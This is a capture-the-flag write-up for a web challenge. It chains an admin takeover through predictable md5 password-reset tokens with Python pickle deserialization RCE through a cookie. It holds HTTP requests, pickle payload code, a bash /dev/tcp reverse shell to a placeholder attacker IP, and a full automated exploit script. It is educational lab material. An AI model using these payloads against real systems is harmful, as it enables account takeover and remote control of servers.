# The Blind Pickle - Web CTF Challenge Writeup

## Challenge Information

| Field | Value |
|-------|-------|
| **Challenge Name** | The Blind Pickle |
| **Category** | Web |
| **Author** | Orbis |
| **Difficulty** | Medium |
| **Target** | http://84.247.129.120:45002 |

---

## Initial Reconnaissance

### First Contact

Upon visiting the challenge, we're presented with a web application featuring:
- User registration and login system
- Dashboard for logged-in users
- Password reset functionality




### Understanding the Application

Testing basic functionality:

**Registration:**
```http
POST /signup HTTP/1.1
Host: 84.247.129.120:45002
Content-Type: application/x-www-form-urlencoded

username=testuser&email=test@test.com&password=password123
```



**Login:**
```http
POST /login HTTP/1.1
Host: 84.247.129.120:45002
Content-Type: application/x-www-form-urlencoded

username=testuser&password=password123
```

After login, we notice we get a session cookie:
```
Cookie: session=eyJsb2dnZWRpbiI6dHJ1ZSwicm9sZSI6Im1lbWJlciIsInVzZXJfaWQiOjQxLCJ1c2VybmFtZSI6ImxhaXRoIn0...
```



Decoding the session (base64):
```json
{"loggedin":true,"role":"member","user_id":40,"username":"testuser"} // it's not the same :)
```

✅ **Key observation:** Our role is `member`, but there's likely an `admin` role we need to reach.

---

## Source Code Analysis - Finding the Vulnerabilities

### Analyzing app.py

After obtaining the source code, we identified multiple vulnerabilities in the application.

### Vulnerability 1: IDOR (Insecure Direct Object Reference)

The password reset functionality has a critical flaw:

```python
def token_for_id(user_id: int) -> str:
    # Intentionally weak and unsalted to keep challenge solvable
    return hashlib.md5(str(user_id).encode()).hexdigest()

def id_from_token(token: str):
    # Resolve an id by brute matching md5(id) == token
    sqli = Classes()
    for uid in sqli.get_all_user_ids():
        if token_for_id(uid) == token:
            return uid
    return None
```

**The Problem:**
- Password reset tokens are just `md5(user_id)`
- No salt, no randomness
- We can calculate the token for ANY user!

**From schema.sql:**
```sql
-- Seed admin (id will be 1)
INSERT INTO users (username, email, password, role, last_login)
VALUES ('admin', 'admin129836193618726@example.com', 'admin1231o82y3198371239719kjgahsdkg', 'admin', NULL);
```

✅ Admin is user_id = 1, so admin's token is `md5("1")` = `c4ca4238a0b923820dcc509a6f75849b`



### Vulnerability 2: Pickle Deserialization RCE

The `/admin` endpoint has insecure deserialization:

```python
@app.route("/admin", methods=['GET', 'POST'])
def admin():
    # Simple admin gate
    if not session.get('loggedin') or session.get('role') != 'admin':
        return redirect(url_for('login'))

    sqli = Classes()
    message = None

    # Vulnerable cookie path: Insecure deserialization happens on any /admin request if cookie present
    if 'adminprefs' in request.cookies:
        try:
            b64 = request.cookies.get('adminprefs')
            _obj = pickle.loads(base64.b64decode(b64))  # 🔥 VULNERABLE!
            # RCE (if any) occurs in __reduce__; we don't need to use _obj
        except Exception:
            # Swallow errors to keep page functional
            pass
```

**The Problem:**
- The `/admin` endpoint deserializes user-controlled cookie data
- Python pickle is notoriously unsafe for untrusted data
- We can craft a malicious pickle payload to execute arbitrary code

---

## The Turning Point - Understanding the Attack Chain

The attack requires two steps:

1. **IDOR → Get Admin Access:** Use the weak token to reset admin's password
2. **Pickle RCE → Code Execution:** Send malicious pickle payload to `/admin`

**Attack Flow:**
```
┌─────────────────┐
│ Calculate       │
│ md5(1) for      │──► c4ca4238a0b923820dcc509a6f75849b
│ admin's token   │
└─────────────────┘
         │
         ▼
┌─────────────────┐
│ Use token to    │
│ reset admin's   │──► POST /reset/confirm
│ password        │
└─────────────────┘
         │
         ▼
┌─────────────────┐
│ Login as admin  │──► POST /login
│ with new pass   │
└─────────────────┘
         │
         ▼
┌─────────────────┐
│ Craft malicious │
│ pickle payload  │──► Python __reduce__ exploit
│ (reverse shell) │
└─────────────────┘
         │
         ▼
┌─────────────────┐
│ Send payload to │
│ /admin via      │──► Cookie: adminprefs=<payload>
│ adminprefs      │
└─────────────────┘
         │
         ▼
┌─────────────────┐
│ Get reverse     │
│ shell!          │──► 🎉 Root access
└─────────────────┘
```

---

## Exploitation Phase

### Step 1: Calculating Admin's Token

First, we calculate what admin's reset token should be:

```python
import hashlib

admin_uid = 1
admin_token = hashlib.md5(str(admin_uid).encode()).hexdigest()
print(admin_token)
# Output: c4ca4238a0b923820dcc509a6f75849b
```

### Step 2: Resetting Admin's Password (IDOR Exploit)

We intercept a normal password reset flow to understand the request:

```http
POST /reset HTTP/1.1
Host: 84.247.129.120:45002
Content-Type: application/x-www-form-urlencoded

username=admin&email=admin129836193618726@example.com
```



This returns a page with the token in a hidden field. But we already know the token!

Now we directly submit the password reset with our calculated token:

```http
POST /reset/confirm HTTP/1.1
Host: 84.247.129.120:45002
Content-Type: application/x-www-form-urlencoded

uid_token=c4ca4238a0b923820dcc509a6f75849b&new_password=pwned123
```


Response: `"Password updated. You can now login."`

🎉 **IDOR successful!** We've reset admin's password without knowing the original.



### Step 3: Logging In as Admin

```http
POST /login HTTP/1.1
Host: 84.247.129.120:45002
Content-Type: application/x-www-form-urlencoded

username=admin&password=pwned123
```




✅ We're now logged in as admin! Notice our session cookie now has `"role":"admin"`.



### Step 4: Accessing the Admin Panel

Visiting `/admin`:

The admin panel shows a list of all users and allows resetting their `last_login` timestamps. This functionality sets the `adminprefs` cookie after use.



---

## Crafting the Pickle Exploit

### Understanding Python Pickle RCE

Python's pickle module has a special method `__reduce__` that gets called during deserialization. We can abuse this to execute code:

```python
import pickle
import base64
import os

class Exploit:
    def __reduce__(self):
        # This gets called when unpickling
        cmd = 'whoami'
        return (os.system, (cmd,))

# Serialize the exploit
payload = pickle.dumps(Exploit())
b64_payload = base64.b64encode(payload).decode()
print(b64_payload)
```

### Testing with Whoami

Let's first test with a simple command:

```python
import pickle
import base64

class Exploit:
    def __reduce__(self):
        import os
        return (os.system, ('whoami',))

payload = base64.b64encode(pickle.dumps(Exploit())).decode()
print(f"Payload: {payload}")
```

Output:
```
Payload: gASVKgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAZ3aG9hbWmUhZRSlC4=
```

Now we send this to `/admin` with the `adminprefs` cookie:

```http
GET /admin HTTP/1.1
Host: 84.247.129.120:45002
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://84.247.129.120:45002/
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJyrVsrJT09PTcnMU7IqKSpN1VEqys9JVbJSSkzJBYrpKJUWpxbFZ6YoWRlC2HmJuQjpWgCxyBVG.aQ48Dw.IHpg9xjTOMRla-jhAlfGZknzt1I; adminprefs=gASVKgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAZ3aG9hbWmUhZRSlC4=
Connection: keep-alive
```



✅ The pickle is being deserialized! Time for a reverse shell.

---

## Establishing a Reverse Shell

### Setting Up the Listener

On our attack machine:
```bash
nc -lvnp 8888
```

```
Listening on 0.0.0.0 8888
```

### Creating the Reverse Shell Payload


```python
import pickle
import base64

class Exploit:
    def __reduce__(self):
        import os
        cmd = 'bash -c "bash -i >& /dev/tcp/YOUR_IP/8888 0>&1"'
        return (os.system, (cmd,))

payload = base64.b64encode(pickle.dumps(Exploit())).decode()
print(f"Payload: {payload}")
```

### Sending the Exploit

```http
GET /admin HTTP/1.1
Host: 84.247.129.120:45002
Cookie: session=.eJyrVsrJT09PTcnMU7IqKSpN1VEqys9JVbJSSkzJBYrpKJUWpxbFZ6YoWRlC2HmJuQjpWgCxyBVG.aQ48Dw.IHpg9xjTOMRla-jhAlfGZknzt1I; adminprefs=<reverse_shell_payload>
```


🎉 **Connection received!**

```
Listening on 0.0.0.0 8888
Connection received on 84.247.129.120 52847
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@1ae0801c53d8:/#
```



✅ We have a shell! And notice we're already `root`!

### Upgrading to a Fully Interactive Shell

The initial shell is limited. Let's upgrade it:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

**Press Ctrl+Z to background**

```bash
stty raw -echo; fg
```

**Press Enter twice**

```bash
export TERM=xterm
export SHELL=/bin/bash
```


---

## Capturing the Flag

```bash
root@1ae0801c53d8:/app# whoami
root

root@1ae0801c53d8:/app# id
uid=0(root) gid=0(root) groups=0(root)

root@1ae0801c53d8:/app# find / -maxdepth 3 -type f -name "*flag*" 2>/dev/null
/proc/kpageflags
/root/flag

root@1ae0801c53d8:/app# cat /root/flag
flag{i_love_pickles_even_when_they_r_blind}
```



🎉 **Flag captured!**

---

## Complete Proof of Concept Script

Here's the automated exploit:

```python
#!/usr/bin/env python3
import requests
import pickle
import base64
import hashlib
import sys

# Configuration
TARGET = "http://84.247.129.120:45002"
YOUR_IP = input("Enter your IP address: ").strip()
YOUR_PORT = input("Enter your listening port (e.g., 8888): ").strip()

print("\n[*] Starting exploit for The Blind Pickle CTF")
print(f"[*] Target: {TARGET}")
print(f"[*] Reverse shell to: {YOUR_IP}:{YOUR_PORT}")
print("\n[!] Make sure you have a listener running: nc -lvnp {}\n".format(YOUR_PORT))

# Step 1: Calculate admin's uid_token
admin_uid = 1
admin_token = hashlib.md5(str(admin_uid).encode()).hexdigest()
print(f"[+] Admin user_id: {admin_uid}")
print(f"[+] Admin uid_token (md5): {admin_token}")

# Step 2: Reset admin password via IDOR
print("\n[*] Step 1: Exploiting IDOR to reset admin password...")
s = requests.Session()

reset_data = {
    'uid_token': admin_token,
    'new_password': 'pwned123'
}

try:
    r = s.post(f"{TARGET}/reset/confirm", data=reset_data, timeout=10)
    if "Password updated" in r.text or r.status_code == 200:
        print("[+] Admin password successfully reset to 'pwned123'")
    else:
        print("[-] Password reset may have failed, but continuing...")
except Exception as e:
    print(f"[-] Error during password reset: {e}")
    sys.exit(1)

# Step 3: Login as admin
print("\n[*] Step 2: Logging in as admin...")
login_data = {
    'username': 'admin',
    'password': 'pwned123'
}

try:
    r = s.post(f"{TARGET}/login", data=login_data, timeout=10)
    if 'session' in s.cookies:
        print("[+] Successfully logged in as admin!")
        print(f"[+] Session cookie: {s.cookies.get('session')[:50]}...")
    else:
        print("[-] Login failed!")
        sys.exit(1)
except Exception as e:
    print(f"[-] Error during login: {e}")
    sys.exit(1)

# Step 4: Craft malicious pickle payload
print("\n[*] Step 3: Crafting malicious pickle payload...")

class Exploit:
    def __reduce__(self):
        import os
        cmd = f'bash -c "bash -i >& /dev/tcp/{YOUR_IP}/{YOUR_PORT} 0>&1"'
        return (os.system, (cmd,))

payload = base64.b64encode(pickle.dumps(Exploit())).decode()
print(f"[+] Payload crafted (base64): {payload[:50]}...")

# Step 5: Trigger RCE by sending payload to /admin
print("\n[*] Step 4: Sending payload to /admin endpoint...")
s.cookies.set('adminprefs', payload)

try:
    r = s.get(f"{TARGET}/admin", timeout=10)
    print("[+] Payload sent successfully!")
    print("[+] Check your listener for the reverse shell!")
    print("\n[*] If successful, you should now have a shell on the target.")
    print("[*] Look for the flag in common locations like /flag.txt, /home/*/flag.txt, etc.")
except Exception as e:
    print(f"[-] Error sending payload: {e}")
    sys.exit(1)

print("\n[*] Exploit complete!")
```

